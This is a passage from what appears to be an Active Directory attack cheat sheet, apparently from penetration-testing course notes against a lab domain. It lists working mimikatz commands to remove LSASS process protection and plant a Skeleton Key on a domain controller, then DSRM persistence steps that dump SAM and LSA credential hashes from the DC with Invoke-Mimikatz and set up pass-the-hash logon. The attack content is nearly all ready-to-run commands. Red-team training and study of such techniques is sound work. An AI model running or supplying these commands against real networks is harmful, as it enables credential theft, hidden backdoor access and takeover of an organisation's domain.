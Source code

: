 ```powershell
Enter-PSSession -Computername <computer-name> -credential dcorp\Administrator
```

## <span style="color:lightgreen">Extra Commands</span>

### <span style="color:#F1C232">LSASS running as a protected process</span>
In case Lsass is running as a protected process, we can still use Skeleton Key but it needs the mimikatz driver (mimidriv.sys) on disk of the target DC
```mimikatz
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # misc::skeleton
mimikatz # !-
```

> The above would be very noisy in logs - Service installation (Kernel mode driver) 
{: .prompt-warning }


# <span style="color:lightblue">Directory Service Restore Mode (DSRM)</span>

* DSRM is Directory Services Restore Mode
* There is a local administrator on every DC called "Administrator" whose password is the DSRM password
* DSRM password (**SafeModePassword**) is required when a server is promoted to Domain Controller and it is rarely changed
* After altering the configuration on the DC, it is possible to pass the NTLM hash of this user to access the DC.

## <span style="color:lightgreen">Methodology/Steps</span>

- [x] 1. Extract the credentials from the SAM file from the DC
- [x] 2. Change the Logon Behavior for the DSRM account
- [x] 3. Pass The Hash of the DSRM administrator and logon

## <span style="color:lightgreen">Invoke-Mimikatz</span>
### <span style="color:#F1C232">1. Dump DSRM password (needs DA privs)</span>

```powershell
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -Computername dcorp-dc
```

### <span style="color:#F1C232">2. Compare the Administrator hash with the Administrator hash of below command</span>
 
```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dcorp-dc
```
